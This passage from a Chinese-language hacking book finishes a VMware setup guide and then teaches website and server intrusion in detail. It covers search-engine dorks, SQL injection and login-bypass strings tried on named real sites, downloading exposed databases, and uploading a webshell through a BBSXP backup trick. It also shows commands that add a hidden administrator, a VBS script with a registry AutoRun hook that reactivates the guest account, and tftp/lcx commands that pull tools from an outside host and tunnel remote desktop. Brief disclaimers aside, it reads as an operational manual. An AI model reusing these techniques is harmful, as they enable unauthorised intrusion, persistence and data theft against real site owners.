输入完毕后按回车键确定，然后选择“未划分的空间”，如图70。这时按下 C 键，开始 D 盘的分区操作。我输入分区大小为 2000，表示 D 盘为 2000MB，即 2G，如图71。

输入完毕后按回车键确定，我们可以按照同样的方法划分出其他分区来，如图72。分区设置好了后，我们选择 C 盘分区，然后按回车键，开始系统的正式安装。此时要求选择文件系统格式，我选择的是 NTFS，因为这个文件系统格式有比较好的安全性，可以设置目录的访问权限，如图73。


选择完毕后按回车键，开始等待格式化过程，如图74。分区格式化完毕之后，才能开始系统文件的复制，如图75。


图75

等待文件复制完毕，此时按照操作提示重启电脑，也就是虚拟机啦！如图76。


图76

在重新启动之后，就可以开始系统的安装设置了。按照提示单击“下一步”按钮，如图77。此时输入授权的系统序列号，如图78。


图77

图78

最后，要求我们选择需要安装的 WINDOWS 2000 SERVER 组件。选择好需要的组件后单击“下一步”按钮，如图79。

等待操作系统安装完毕之后，我们就可以通过虚拟机来使用了，如图80。

##### 四、虚拟机网络设置

在完成操作系统的安装之后，下面对虚拟机的网络进行配置，这样才能让虚拟机连接上网，如同本机一样。这里介绍如何通过 VMWARE 的 DHCP 服务器来实现虚拟机的 NAT 上网方式。在使用这个方法前，要确认 VMWARE 已经安装了 VMWARE DHCP 服务和 VMWARE NAT 服务，大家可以通过查看本机的服务列表来知道是否已经安装了这两个服务，如图81。


图79

图80


图81

此时进入虚拟机中操作系统里的网上邻居，在“本地连接”上按鼠标右键，选择“属性”。在弹出的“本地连接”属性窗口中，单击“INTERNET 协议（TCP/IP）”，然后单击“属性”按钮，如图82。


图82

在弹出的属性窗口中，选择“自动获得 IP 地址”“自动获得 DNS 服务器地址”，然后单击“确定”按钮完成设置，如图83。


图83

此时重新启动虚拟机中的系统（一定要重启，否则依然无法上网），在重启之后，使用 PING 命令来 PING 一个网站，可以看到已经和网络连接成功了，如图84。


图84

此时，虚拟机和操作系统的网络连接都已经安装完毕，但是还有很多地方操作不够方便，比如无法把本机的文件使用 VMWARE 的拖放功能复制到虚拟机中……接着就来介绍如何安装 VMWARE TOOLS PACKAGE 来解决这些问题。

在 VMWARE 中依次单击“VM”→“VMWARE TOOLS”菜单，弹出一个安装窗口，单击“INSTALL”按钮开始安装，如图85。


图85

接着弹出一个安装向导，如图86，单击“NEXT”（下一步）按钮开始安装，如图87。


图86


图87

安装完成之后，要求我们重启电脑，单击“YES”按钮即可，如图88。


图88

这样，一个完整的 VMWARE 虚拟机安装流程就介绍完毕了，以后读者朋友就可以在虚拟机里测试服务器了，还可以安装 FTP 服务、WEB 服务、SQL 服务等等，这样就可以过一把黑客的瘾了。

### 4.2 黑客初体验

本节从破解一个音乐站的下载限制开始，介绍黑客是如何破解网站，甚至进行入侵，得到服务器权限的。通过对这些基础技术的介绍，让读者对黑客技术有一个统览型的了解。

### 4.2.1 GOOGLE 黑客之刺探军情

随着网络安全的提高，现在要找出一些存在漏洞的网站已经很难了，下面首先为大家介绍黑客高手是如何获得存在漏洞的网站的。同时，个人网站的站长们也可以通过本文来一探自己网站的安全性，从而防止被黑客攻击。

##### 一、注入漏洞之老树新花

- 1、如何批量找寻注入点

注入漏洞是黑客界一个不老的话题。对于 ASP 注入点的发掘，可以使用搜索引擎查询关键字：`inurl:asp?id=1`；如果想找 PHP 的注入点，可以搜索关键字：`inurl:php?id=1`。我们使用“挖掘鸡”，在关键字那里输入 `inurl:asp?id=1`，然后把 SQLINJ 下面的所有项目都进行勾选，接着单击扫描按钮开始检测扫描，如图89。


随着扫描的进行，如果找到有注入漏洞的地址，就会列表显示出来，如图90。我们打开其中一个注入地址，如图91，在后面添加一个“'”单引号后再刷新访问，提示出错，如图92，可见该地址有注入漏洞。这样就会很快地发现注入点，黑客就会以此开展对网站的入侵。

- 2、追寻搜索型注入点

注入漏洞应该是黑客很熟悉的一个漏洞，随着 Google Hacking 的流行，笔者总结得到了一些非常有效的漏洞搜索技巧，下面就奉献给大家。


图90


图91


图92

伴随着数字型注入点的减少，最近黑客都挺热衷搜索型注入，这里就来介绍如何快速找寻搜索型注入点（类似字符型注入点）。

一般来说，Web 程序员在设计搜索页面时，常把这个搜索页文件命名为 search.asp，这样不仅一目了然，见名知意，而且也方便了 Hack 们对相关漏洞页面的查询搜索！

- 关键字：`inurl:search.asp`
- `inurl:search.asp site:cn`
- `intext:搜索`
- （为了提高成功率，可以加入“企业网”之类的关键字，因为企业网的维护性一般较差！）

在开始检测之前，要对 IE 浏览器做一些设置。打开 INTERNET 选项，把“显示友好 HTTP 错误信息”前面的勾去掉，如图93。


图93

然后使用百度或者 GOOGLE 来查询精心构造的关键字，一般排名靠前的站，安全性都比较高，对这样的站可以飘过！这次通过搜索，我们得到了一个网站地址：“http://www.huanghuai.edu.cn/yishuchaxun/search.asp”，在输入框中输入：`%'and 1=1 and '%'='`，页面返回正常；再输入：`%'and 1=2 and '%'='`，页面出错，说明存在注入点，如图94。


图94

按照同样的方法得到了另外一个存在搜索型注入的站点地址：“http://www.lib.whu.edu.cn/journal/en/search.asp?searchtype=search”，如图95。


图95

##### 二、让网站数据库无处可逃

- 1、揪出默认数据库

查找数据库文件，我们也可以巧妙地使用搜索关键词！比如，要查找动网论坛的默认数据库，关键字为：`inurl:dvbbs7.mdb`，其他网站程序的数据库利用方式大同小异，大家可以举一反三。

我们可以先到相关的源码下载站（比如 www.chinaz.com）去下几套 Web 程序，记下它们的数据库名字和地址，然后填到搜索引擎中进行测试。当然，也可以用相关检测工具来批量检测，这样提高入侵精准性！

聪明的黑客知道使用工具来替换人工的重复劳动，对待站点漏洞的挖掘，可以使用“网站猎手”和“挖掘鸡”等工具来检测默认的网站数据库文件。

这里我们使用“挖掘鸡”，在关键字那里填写“powered by dvbbs”，然后选择动网论坛的所有默认数据库文件，接着单击“>>”按钮即可开始扫描，如图96。


图96

等待一会儿后就会扫描出数据库地址，打开其中一个，如图97，居然可以下载哦！


图97

- 2、爆出数据库位置

数据库对一个网站来说是非常重要的，尤其是现在很多数据库中都保存了管理员的账户和密码，所以一旦一个网站的数据库被黑客捕获，那么这个网站很可能就会被入侵。查询关键字：`inurl:conn.asp`，就会得到很多有暴库漏洞的网站，它们会自动爆出自己的数据库地址，如图98。


图98

使用 GOOGLE 查询指定关键字之后，得到一个网络地址：`http://www.needahand.org/community/dv5bbs/CONN.ASP`。使用 IE 浏览器打开之后，可以看到它的数据库相对路径，如图99。


图99

仔细分析其中的相对路径 `data/dvbbs5.mdb`，再结合网站的地址 `http://www.needahand.org/community/dv5bbs/CONN.ASP`，于是得到网站的数据库路径为：`http://www.needahand.org/community/dv5bbs/data/dvbbs5.mdb`。

此时访问 `http://www.needahand.org/community/dv5bbs/data/dvbbs5.mdb`，可以看到弹出一个数据库下载对话框，如图100。就这样，一个网站的数据库就暴露出来了。


图100

- 3、找出 Ewebeditor 的数据库

使用过 Ewebeditor 编辑工具的读者，一定都知道它默认的数据库地址为：`db/ewebeditor.mdb`，如图101。


图101

那么，可以通过查询关键字：`inurl:ewebeditor`，得到很多使用 ewebeditor 的网站，如图102。


图102

打开其中的一个网站地址，比如“http://www.ciia.com.cn/pyciia/dnews/manage/eweb/ewebeditor.asp?id=content1&style=s_light”，如图103。


图103

我们来查询下它默认的数据库名称是否被修改，如果没有修改，我们应该就可以下载。在 IE 地址栏输入：`http://www.ciia.com.cn/pyciia/dnews/manage/eweb/db/ewebeditor.mdb`，如图104。


图104

可以看到，对方网络管理员并没有修改 ewebeditor 的默认数据库名称。这样黑客们往往就会下载默认的数据库，然后破解其中的密码，从而登录 ewebeditor 的管理后台，获得网站的权限。

##### 三、找寻遗失的上传漏洞

至于上传漏洞，可以查询关键字：`inurl:upfile.asp`，其利用方法一般是使用明小子的 Domain3.5 来抓包上传。我们先使用 GOOGLE 来查询 `inurl:upfile.asp`，结果看到有很多上传页面，如图105。

打开其中的某些上传页面，就可以使用 Domain 来进行上传入侵了。


图105

### 四、列出服务器 WEB 目录

在搜索引擎中查询关键字：`intext:index of` 或 `intext:to the parent`，可以看到有很多结果，如图106。


图106

我们点击其中搜索出来的结果，可以看到网站的路径全部被暴露出来了，如图107。黑客往往会通过这些信息得到网站的数据库和管理密码，然后进行入侵。


图107

#### 4.2.2 从数据库“后门”到网络沦陷

“网站猎手”是笔者编写的一款网络扫描工具，界面清爽，上手容易。我们在“关键字”处输入特殊构造的关键字“Powered by BBSxp 5.16”（因为这个版本的 BBSXP 漏洞利用方式比较简单，也是黑客们喜好攻击的版本），如图108。然后点“搜索”按钮后，程序自动跳转到浏览页。


图108

此时点“获取网址”按钮，即可把所有的地址全部提取出来。但是获得的 URL 地址不一定都合乎我们的要求，此时可以单击“整理网址”按钮来对网站地址进行整理，如图109。


图109

现在来到“扫描漏洞文件”页面，点击“Load URL”按钮载入要扫描的站点地址，把地址列表中的 URL 地址载入到待测试站点中。然后，在漏洞文件中选择好要扫描的漏洞文件。我们主要是利用批量下载 BBSXP 论坛数据库来达到渗透的目标，所以就只选择了 BBSXP 论坛的数据库文件，这样做的好处就是可以有针对性地进行扫描，同时缩短程序扫描时间。

现在就可以单击“开始检测”按钮进行扫描了。不一会儿，我们就可以从检测结果列表中看到扫描结果，如图110。


图110

在检测结果中，找到一个目标地址，在其上按鼠标右键，选择“访问”，此时就会弹出数据库下载对话框，如图111。


图111

用“辅臣数据库浏览器”或者 DOMAIN3.5 旁注入工具打开下载回来的数据库文件，找到其中的 user 表，然后在字段名中选择 membercode，关键字输入 5（BBSXP 论坛程序中，membercode=5 的用户就是管理员）。我们可以发现，password 字段是加了密的，如图112。


图112

对于 MD5 密码的破解，现在主要流行的破解方式有两种：一种是使用软件暴力破解；另一种就是到 MD5 在线破解网站去破解！对于后者，比较著名的破解站点有如下几个：

- http://www.xmd5.org/
- http://www.milw0rm.com/md5/info.php
- http://www.neeao.com/md5/

我们在 IE 地址栏中输入 **http://www.xmd5.org/** 来到破解网站，如图113，在其中的解密输入框中输入加密的口令，比如 **900150983CD24FB0D6963F7D28E17F72**。


图113

接着点击页面上的解密执行按钮，该页面就会对输入的密文进行解密，然后把结果显示出来，如图114。


图114

破解出 MD5 密码明文之后，此时就可以通过网站的管理员账户和密码登录后台，如图115。


图115

对于 BBSXP 论坛，在设计时是考虑到了密码的安全性的，比如管理员前台和后台可以设置不同的密码。不过，国内的网络安全性堪忧，可以见证的一点就是，五成以上的网站管理员会出于方便的考虑，前后台使用同一个密码，这也就给黑客的渗透之旅奏响了前奏！

在进入了后台后，就可以上传海洋 ASP 木马，也就是 WEBSHELL，大家可以到 `http://dragonkiss.ys168.com` 下载，如图116。


图116

#### 小知识

webshell：可以简单理解为一个挂接在 WEB 上面的后门（木马）。

备份数据库获取 webshell：通常的利用方式是将一个后缀为 .jpg 的文件（其实是一个 WEB 文件修改后缀得到的）还原成 .asp 文件！它其实是通过 BBSXP 后台对备份文件后缀名检测不够严格，来达到修改并获取 shell 的目的！

从前面提供的地址下载回海洋 ASP 木马，然后使用记事本打开该文件，修改登录密码，如图117。

修改密码的位置如下，把密码修改为自己的即可。


图117

```javascript
const userPassword="123456"; // 登录密码
const adminPassword="123456"; // 二次密码
```

修改后选择“文件”菜单下的“另存为”，在“保存类型”选择框中选择“所有类型”，然后单击“保存”按钮，这样一个 JPG 格式的 WEBSHELL 就产生了。

可能读者要问：为什么要把 WEBSHELL 修改为 JPG 格式呢？因为 BBSXP 不允许上传后缀为 ASP 格式的文件，所以为了突破这个限制，首先要把它的后缀修改成 JPG 格式进行保存，如图118。这样就可以把这个 JPG 文件进行上传了，然后使用 BBSXP 的后台数据库备份功能就可以备份出一个 WEBSHELL。


图118

这样，一个可以用来上传的 WEBSHELL 就准备好了。现在开始，要在后台打开文件上传功能。来到论坛的“社区基本设置”板块，设置其中的“选择上传组件”为“FSO”，如图119。

接下来就可以按照前面提到的方法去“数据管理”项那里备份数据库而得到 WEBSHELL 了。现在来到论坛前台，发表一个新帖子，如图120，也就是上传刚才的 JPG 格式 WEBSHELL 文件到论坛中，得到文件地址是：`http://127.0.0.1/bbsxp/images/upfile/2008-10/2008105155137.jpg`。


图119


图120

此时进入后台，来到“数据管理”项下的“ACCESS 数据库”板块。在这个页面上按鼠标右键，选择“查看源文件”，如图121。


图121

此时系统自动调用记事本来显示源代码，在其中找到第一个表单，我们要求修改它的 POST 提交地址。因为在源代码中提交地址是相对地址，这里需要修改为网络上的 URL 地址。也就是要把源文件中的 `<form method="post" action="?menu=bakbf">` 这句中 action 后面的地址做下修改，修改的 URL 地址为 `http://127.0.0.1/bbsxp/` + 接受 menu 变量的 asp 文件。

但是，这个 ASP 文件是什么目前还不知道，于是打开嗅探工具“WinSock Expert”，找到 iexplore.exe 进程（IE 进程），然后单击“打开”，如图122。


图122

现在就可以对 POST 提交的地址进行嗅探了，最后终于得到了我们要找寻的那个 ASP 文件，如图123。


图123

此时，把表单中的 `action="?menu=bakbf"` 修改为 `action="http://127.0.0.1/bbsxp/admin_fso.asp?menu=bakbf"`，如图124。


图124

现在还要修改一个地方，那就是 YL 这个文本框的内容。可以看到，这个文本框默认是只读的，我们无法修改要提交的数据库地址，这样也就无法把一个 JPG 文件备份成一个 ASP 文件。于是我们去掉它的 readonly 属性，如图125。


图125

也就是把代码 `<input size="30" value="database/bbsxp.mdb" name="yl" readOnly></td>` 变成 `<input size="30" name="yl"></td>`，最后全部代码如下：

```html
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
</head>
<link href="images/skins/1/bbs.css" rel="stylesheet">
<script src="inc/BBSxp.js"></script>
<script src="inc/ybb.js"></script>
<script src="images/skins/1/bbs.js"></script>
<center>
<table cellspacing="1" cellpadding="2" width="70%" border="0" class="a2" align="center">
<tr height="25">
<td class="a1" align="middle" colspan="2">备份数据库</td>
</tr>
<tr height="25">
<td class="a3" align="middle" colspan="2">
<form method="post" action="http://127.0.0.1:8888/bbsxp/admin_fso.asp?menu=bakbf">
<table cellpadding="0" cellspacing="0" style="border-collapse: collapse" width="90%">
<tr>
<td width="30%">数据库路径:</td>
<td width="70%"><input size="30" name="yl"></td>
</tr>
<tr>
<td width="30%">备份的数据库路径:</td>
<td width="70%"><input size="30" value="database/bbsxpbak.mdb" name="bf"></td>
</tr>
<tr>
<td width="100%" align="center" colspan="2">
<input type="submit" value=" 备 份 " name="Submit1"><br>
</td>
</tr>
</table>
</form>
</td>
</tr>
</table>

<table cellspacing="1" cellpadding="2" width="70%" border="0" class="a2" align="center">
<tr height="25">
<td class="a1" align="middle" colspan="2">恢复数据库</td>
</tr>
<tr height="25">
<td class="a3" align="middle" colspan="2">
<form method="post" action="http://127.0.0.1:8888/bbsxp/admin_fso.asp?menu=bakbf">
<table cellpadding="0" cellspacing="0" style="border-collapse: collapse" width="90%">
<tr>
<td width="30%">备份的数据库路径：</td>
<td width="70%"><input size="30" value="database/bbsxpbak.mdb" name="bf"></td>
</tr>
<tr>
<td width="30%">数据库路径：</td>
<td width="70%"><input size="30" value="database/bbsxp.mdb" name="yl"></td>
</tr>
<tr>
<td width="100%" align="center" colspan="2">
<input type="submit" value="恢复" name="Submit1"><br>
</td>
</tr>
</table>
</form>
</td>
</tr>
</table>

<table cellspacing="1" cellpadding="2" width="70%" border="0" class="a2" align="center">
<tr height="25">
<td class="a1" align="middle" colspan="2">压缩数据库</td>
</tr>
<tr height="25">
<td class="a3" align="middle" colspan="2">
<form action="compact.asp" method="post">
<input type="hidden" name="sessionid" value="4191576">
<table cellpadding="0" cellspacing="0" style="border-collapse: collapse" width="90%">
<tr>
<td width="70%">
<table cellpadding="0" cellspacing="0" style="border-collapse: collapse" width="90%">
<tr>
<td width="30%">数据库路径：</td>
<td width="70%"><input size="30" value="database/bbsxp.mdb" name="dbpath"></td>
</tr>
<tr>
<td width="30%">数据库格式：</td>
<td width="70%">
<input type="radio" value="True" name="bools97" id="bools97"><label for="bools97">Access 97</label>
<input type="radio" value="" name="bools97" checked id="bools97_1"><label for="bools97_1">Access 2000, 2002, 2003</label>
</td>
</tr>
<tr>
<td width="100%" align="center" colspan="2">
<input type="submit" value=" 压 缩 " name="Submit">
</td>
</tr>
</table>
</td>
</tr>
</table>
</form>

<title>BBSxp Board -- Powered By BBSxp</title>
<p>
<table cellspacing="0" cellpadding="0" width="97%" align="center">
<tr>
<td align="middle">
Copyright 1998-2005 <a target="_blank" href="http://www.yuzi.net"><font color="000000">Yuzi.Net</font></a><br>
Powered by <font color="ffffff"><a target="_blank" href="http://www.bbsxp.com/download.htm"><font color="000000">BBSxp 5.16</font></a></font>/<a href="Licence.asp"><font color="000000">Licence</font></a>&nbsp;&copy; 1998-2005<br>
Script Execution Time: 19ms
</td>
</tr>
</table>
<script>bbsxpbottom();</script>
</body>
</html>
```

把以上代码保存为 A.HTML 文件，运行这个 A.HTML 文件，修改数据库的路径为刚才那个 JPG 文件的路径，备份的数据库路径修改为 MM.ASP 即可，如图126。


现在单击“备份”按钮，提示“备份成功”，如图127。


现在打开 IE，在地址框中输入 `http://127.0.0.1/bbsxp/mm.asp`，这样海洋顶端的 WEBSHELL 木马就出现了！如图128，然后我们输入密码 123456 即可登录。


登录之后，黑客可以通过这个 WEBSHELL 删除文件和修改网页文件，甚至通过提权获取整个网站服务器的权限，如图129。


#### 4.2.3 SQL弱口令的渗透入侵

前面介绍了如何使用 WEB 漏洞入侵网站，黑客们往往还使用一些系统漏洞，比如弱口令、溢出等等，来达到入侵网站的目的。本节就来介绍黑客是如何使用 WinAutoAttack 这款工具，并且得到网站系统权限的。

首先我们需要找到一段活跃的 IP 地址，也就是开放了一些 WEB 或者 SQL 服务的主机。然后运行 WinAutoAttack，选择其中的“SQL 漏洞”选项卡，这里所说的 SQL 漏洞其实就是 SA 权限下的弱口令。对于这个选项卡里的设置，可以都选上，也可以只选择“列出密码为空的 SA 账号”，用户个人喜好而已！

#### 小知识

**活跃 IP 段**

我们可以先 ping 一个知名站点的 domain（域名），比如 ping www.163.com（网易），得到 IP：220.181.28.42。这样在扫描的时候，就可以在起始 IP 输入：220.181.1.1，结束 IP 输入：220.181.255.255，它们之间所包括的所有 IP 就属于活跃 IP 段。说得容易理解点，就是存在许多主机的 IP 段范围。

本程序最多可以并发 256 个线程，如果计算机配置较高，可以使用 256 个线程进行扫描，提高速度！如图130。一切配置好之后，就可以点击“开始”按钮进行扫描了！


图130

扫描一会儿后，就有可能扫出有漏洞的 SQL 主机！如图131。


图131

## 第四章　职业黑客之网络窃密

现在，就该“SQL综合利用工具”出场了！选择“SQL服务器设置”下的“设置”，然后输入一个扫到的、有 SQL 空口令的 IP，用户名输入 SA，密码为空，点“确定”就可以连接 SQL 主机了，如图132。


图132

不一会儿果然就连接成功了！这时，在目录菜单中找到“执行 DOS 命令”子菜单，在出现的输入框中输入 `ipconfig` 命令，这是为了检测对方的 SQL 主机是处于内网还是外网。如果是内网的话，要想连接它，就还需要端口映射。不过很幸运，当前的主机处在外网！也就是说，我们可以直接连接它！如图133。


图133

其实，有些黑客此时也会利用 SA 权限，上传一个自己配置的木马。比如，在“利用目录”菜单中找到“上传文件”，然后上传一个免杀的木马，最后在 CMD 下运行这个木马，这里就不详细介绍了，如图134。


图134

但是，更多的黑客往往会选择开放远程电脑的 3389 远程终端服务，因为使用远程终端操作电脑是最方便的，百分之百图形界面，而且还是微软自带的“后门”，永远“无毒”，绝不被杀！

我们在“执行 DOS 命令”框中输入 `ipconfig -a` 命令查看主机开放的端口信息，很庆幸，3389 端口已经开放，我们可以使用对方的远程终端服务！

继续在“执行 DOS 命令”框中输入 `net user $xiaolong 123456 /add`，如图135。命令执行成功，现在再把这个用户加入到管理员组，命令为：`net localgroup administrators $xiaolong /add`，如图136。这两个命令的意思分别就是首先添加一个用户：$xiaolong，然后把他提升为系统管理员。


图135


图136

这里之所以在用户名 xiaolong 前面加上“$”，是因为通过此种途径建立起来的用户名，在命令提示符下使用 `net user` 命令是看不到的，这样也就增加了黑客账户的隐蔽性！

不过为了进一步提高隐蔽性，你也可以写一段激活 Guest 账户的 VBS 脚本，然后让这段 VBS 脚本和 CMD.exe 文件关联，这样只要管理员运行了 CMD.exe 也就激活了你的账户。就算被管理员发现而删除了非法用户，只要再次运行 cmd.exe，又会被悄悄激活的！账户 VBS 代码如下：

```vb
Dim wsh
Set wsh=createobject("wscript.shell")    ' 得到 wscript 对象
wsh.run "net user guest /active:yes",0    ' 激活 guest 账号
wsh.run "net user guest 123456",0         ' 修改 guest 密码为 123456
wsh.run "net localgroup administrators guest /add",0   ' 添加 guest 到管理组
```

然后打开注册表，路径为：`hkey_local_machine\software\microsoft\command processor\autorun`，在键值里面加入你的 VBS 脚本文件的路径就可以了！最后运行 VBS 脚本文件，一个高隐蔽性的账号就出炉了！

这样，即使管理员把你的 guest 账号停掉，当他运行 cmd 的时候又会自动激活 guest 账号。

## 第四章　职业黑客之网络穿梭

因为上面的修改已经让我们的 VBS 脚本文件和 cmd.exe 产生了关联，运行 cmd，系统就会找到注册表里面的路径运行那 VBS 脚本文件！

> **小知识**  
> 出现 xpsql70.dll 文件错误的解决方法
>
> 如果在使用 DOS 命令时，出现 xpsql70.dll 文件错误，则说明部分命令有可能被管理员禁用了。这个时候可以用 SQL 查询分析器去连接，然后第一步执行：`sp_dropextendedproc "xp_cmdshell"`；第二步执行：`sp_addextendedproc 'xp_cmdshell','xpsql70.dll'`，这样一般就可以恢复 xpsql70.dll 了！

现在已经在对方主机新加了一个管理员，我们拿出 3389 登录器，如图137，输入刚才的管理员账户 $xiaolong 和密码 123456。然后单击“连接”按钮，这样我们就成功登录了 3389 终端，如图138。


图137


图138

我们这里是通过 SA 弱口令来获取 WEB 服务器权限的，所以提醒各位网络管理员，要注意提高密码的安全意识，不要使用弱口令，否则对一个网站、一个网络都会是致命的打击！

### 4.3 黑客日记

在本节，谱写了一位黑客的三次入侵过程，分别介绍了他是如何获得网页的 WEBSHELL 权限，如何得到服务器的系统权限，如何在内网进行进一步渗透，将一个个技术点通过三篇文章串联起来。透过这三篇文章，读者朋友可以很清晰地看到黑客们是如何通过一个个小小的漏洞逐渐让整个服务器，甚至整个服务器网络瘫痪和沦陷的。

介绍这些知识乃是要求读者朋友，尤其是服务器网络管理员，提高安全意识，增强服务器安全。笔者认为，只有通过对黑客攻击手法的了解，才能做到魔高一尺，道高一丈，进行行之有效、有针对性的防御！

### 4.3.1 站在前人肩膀上的入侵之获得 WEBSHELL

因为经常学习黑客知识，所以常常对一些网站的安全性能比较关注。一次无意间登录到了一个网站，是个不错的个人空间，如图139，于是就对其安全性能比较关注。


图139

首先使用啊D注入工具扫描了一下网站，没发现什么注入点，不过得到了网站的管理后台“http://www.yiyiyoyo.com/admin/index.asp”。于是想到了旁注，因为这种小站一般都是挂在其他服务器上的。

到“http://www.114best.com/”进行查询，知道这个域名所在的主机存在其他 5 个站，查询结果比较少（后来进服务器后发现原来有 120 多个网站，而用“www.myipneighbors.com”能查出 77 个，看来 114best 也不一定是 best 的），如图140。


图140

于是，随便挑了其中一个“www.nchdl.com”进行旁注测试，还是使用啊D注入工具进行扫描，结果是没有注入点。不过，同样也扫出了网站的管理后台“http://www.nchdl.com/admin/index.asp”。我使用了一下万能后台登录密码，“' or'=' or'”，居然登录进去了！进入后台一看，出现了熟悉的 EWEBEDITOR 在线编辑器，如图141。


图141

通过查看源代码，发现了在线编辑器的地址为：“http://www.nchdl.com/websoft/ewebeditor.asp?id=d_content&style=s_mini&originalfilename”，不过还是上传不了 asp 木马，如图142。


图142

来到后台登录页面“http://www.nchdl.com/websoft/admin_login.asp”，可以正常访问。现在，使用默认的管理员账户 admin 和密码 admin 登录，提示“用户名或密码错误”。接着我又使用了以网站域名为线索进行一些常用的社会工程学方法尝试，都以失败告终，如图143。

通往罗马的道路并非一条，我们的办法也有很多。既然管理员改了默认的账密，那他会不会也改了默认的数据库呢？于是在 IE 中输入了“http://www.nchdl.com/websoft/db/ewebeditor.mdb”，弹出了一个下载对话框，看来数据库名并没有被修改，如图144。下载了数据库文件之后，使用 Domain3.5 自带的数据库管理功能打开数据库，看到了编辑器后台的账户和密码，不过是 MD5 加密的，有经验的黑客一看账号就知道是 admin（那串 MD5 加密的字符串其实就是通过加密 admin 得来的），如图145、图146。


图143

图144


图145


图146

把经过 MD5 加密的密码拿到“www.cmd5.com”这个在线 MD5 密码破解查询网站进行破解，结果提示没有查询结果（MD5 密码 b754c8f0799df22a），如图147。

接着，笔者看了下 ewebeditor_style 这个表段，发现在最后的一个 s_popup1 字段中有 asa 这个格式的痕迹，看来这个网站在笔者之前已经有人人侵过了，如图148。

## 第四章　职业黑客之网络穿梭


图147


图148

现在打开这个 s_popup1 记录，可以看到在文件后缀名那列清楚地显示着“asa”，表示支持 ASA 文件格式，如图149。


图149

图150

细心的读者可以对比一下默认的样式设置，如图150，可以看到是不支持 ASA 格式的。

之所以现在支持了 ASA 格式，多半是之前的黑客入侵者修改了上传文件允许的类型。

既然这个站被别人入侵过，那么就踩着别人的脚印，走出自己的入侵之路来吧！此时把“http://www.nchdl.com/websoft/ewebeditor.asp?id=d_content&style=s_mini&originalfilename”中的 id 和 style 这 2 个字段名换成那个保留有 asa 格式的字段名，也就是修改成：“http://www.nchdl.com/websoft/ewebeditor.asp?id=45&style=s_popup1”（表示使用 s_popup1 样式中的工具栏名为 45 的一排按钮，因为这一排按钮中的“图片上传”支持 ASA），这样就顺利欺骗了 EWEBEDITOR 的上传文件格式验证过程，如图151。

## 第四章　职业黑客之网络穿梭


图151

在上传文件之前，要首先单击“设计”按钮，如图152。如果没有单击此按钮，就会弹出如图153的警告框，这样就无法上传。


图152


图153

在打开的上传对话框中，单击“浏览”按钮选择 ASA 格式的木马文件（把 ASP 木马修改后缀名得到），如图154。


图154

此时，单击“代码”按钮，等待文件上传完毕。现在，在 EWebEditor 的页面中出现了上传的 ASA 文件相对路径，如图155。


图155

## 第四章　职业黑客之网络穿梭

现在，将上传后得到的相对路径填写到网站的 URL 地址中，最后进行访问，这样，一个 Webshell 就这么得到了，如图156。


图156

登录 shell 看看，管理员权限设置得不错，因为 Webshell 提示权限不够，不能跳转，如图157。


图157

这可怎么办呢？不急，权限不够，那就换个 aspx 的木马来看看行不行。继续前面一样的操作，只不过是换成上传 aspx 文件，很快，我们就得到了一个 aspx 的 Webshell（我们也可以使用 asp 的 Webshell 上传一个 aspx 的 Webshell 到网站目录中，通常 aspx 的权限比 asp 的大），如图158。


图158

## 第四章　职业黑客之网络穿梭

有了这个 aspx 的 Webshell，本次入侵也接近尾声了，120 多个站的目录已经一目了然，当然也包括那个美女的个人站，如图159。希望大家不要搞破坏，我已通知相关网站的管理员和站长了。


图159

#### 4.3.2 从啊D批量抓鸡到服务器沦陷

上面介绍了如何获得一个网站的 Webshell 权限，大家应该已经感受到了网络的脆弱性。管理员只有加强网络管理，提高网络安全意识，加深自己的网络安全技术，才能在与黑客的对抗中占据上风。

这里介绍一下黑客是如何通过工具批量获取有漏洞的服务器和网站，并且渗透一台网站服务器的。读者朋友应该本着从技术的角度去理解这些知识，而不要去搞破坏。

首先打开啊D注入工具，使用它的浏览功能浏览 GOOGLE，然后单击 GOOGLE 搜索页面的高级选项，如图160，在那里填写“inurl:asp?id=24”，接着在结果那里选择“30项结果”。


图160

## 第四章　职业黑客之网络穿梭


此时单击 GOOGLE 搜索按钮，可以看到啊D注入工具自动检测出来很多注入点，毕竟使用 asp 系统的网站，还是比较多的，如图162。


于是把注入点一个个地看下去，经过连续几个没用的点之后，终于迎来了一个令人兴奋的注入点，那就是 sa 注入点。大家都知道 sa 意味着什么——上传文件、执行文件、系统命令、查看网站目录等等。说白了，sa 就是一个 system 权限，和管理员权限几乎一样，如图163。


马上跳到啊D的“cmd/上传”功能页面，执行了一些常用的命令来收集服务器的信息。通过这些信息可以发现，服务器为 WINDOWS 2003 SERVER，开了 3389 终端服务，不过是内网。不用担心，因为我们有 sa 权限。

有些读者可能会问，不是说内网吗？那怎么用远程桌面连上呢？这里笔者补充一下，这个网站是和数据库分离的，我们用工具连的是 sql 服务器，它是在内网，IP 是 192.168.0.30。而我们用远程桌面工具连 sunameri.jp 或者它的 IP 地址 221.186.183.131，其实就是连 web 服务器，所以这个大家得搞清楚。

既然是内网，那我们就用 lcx 转发，至于添加用户就更简单了，直接在工具上使用 net 命令进行添加。说干就干，马上操作，立马用 tftp 工具上传 lcx.exe，在啊D注入工具中执行 CMD 命令：`tftp -i 220.189.68.38 get lcx.exe c:\lcx.exe`，提示“Transfer successful: 32768 bytes in 10 seconds, 3276 bytes/s”，表示上传成功了！如图164。

```
c:\lcx.exe -lis -ten 53 1818
c:\lcx.exe -slave 220.189.68.38 53 127.0.0.1 3389
```


图164

如果在本机收到数据，这就说明转发成功了，如图165。


图165

然后在远程桌面连接处输入本机的 IP，再加上你所转向的端口号，如图166。


图166

接着再用刚才自己建好的用户登录，如图167，这样，一台服务器就被拿下了，如图168。不过接下去笔者还想给大家讲一个提权的故事，故事的名字叫“不擦净自己屁股的后”

## 第四章 职业黑客之网络穿梭


图167


图168

果。为什么这么叫呢？因为拿这台服务器的时候发现，它其实已经被很多黑客前辈入侵过了，其中有个大意的黑客还留下了他用过的 FTP 下载批处理文件，具体的内容如图169。

```bat
echo open 61.188.39.61 >ftp.txt
echo zhoulin >>ftp.txt
echo ****** >>ftp.txt
echo get sr.exe sr.exe >>ftp.txt
echo bye >>ftp.txt
ftp -s:ftp.txt
del ftp.txt
```

图169

可以看到，他的 FTP 空间账号密码一览无余。于是我将文件里的账号密码用 FlashFXP 尝试登录，如图170。结果是意料之中的，登录成功！如图171。


图170


图171

随便找了个网站目录，上传了个 ASP 的木马，轻松得到一个 webshell，如图172。


接下去当然是提权拿服务器了！进 webshell 一看，发现 Terminal Service 3389 终端服务开启了，不过服务端口被改成了 19933，如图173。


图174（组件列表）

